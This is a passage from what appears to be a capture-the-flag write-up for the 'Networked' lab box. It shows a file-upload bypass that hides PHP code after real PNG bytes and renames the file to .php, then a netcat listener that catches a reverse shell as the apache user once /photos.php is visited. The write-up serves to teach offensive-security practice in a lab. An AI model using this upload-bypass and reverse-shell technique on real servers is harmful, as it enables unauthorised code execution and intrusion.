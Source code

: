 I forward the request, and my upload succeeds.

![](/images/networked/image3.png)

This means that the upload does no checks to see if there's any PHP code in the image. (It may check for "magic bytes" in the beginning of the file, which is why I was careful to preserve the PNG and add the PHP _after_ the PNG content.)

To execute the code, we need the file to have the .php extension, not .png, so I send the upload again with the PHP code—but I also modify the filename like this:

![](/images/networked/image10.png)

As with before, it succeeds.

![](/images/networked/image3.png)

I set up my netcat listener:

{% highlight plaintext %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
{% endhighlight %}

Then I visit /photos.php to trigger the payload. I see my filename on the page, but no image.

![](/images/networked/image11.png)

Back on my listener, I get a shell as user Apache.

{% highlight plaintext %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.146] 57646
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 02:54:28 up  2:45,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
{% endhighlight %}
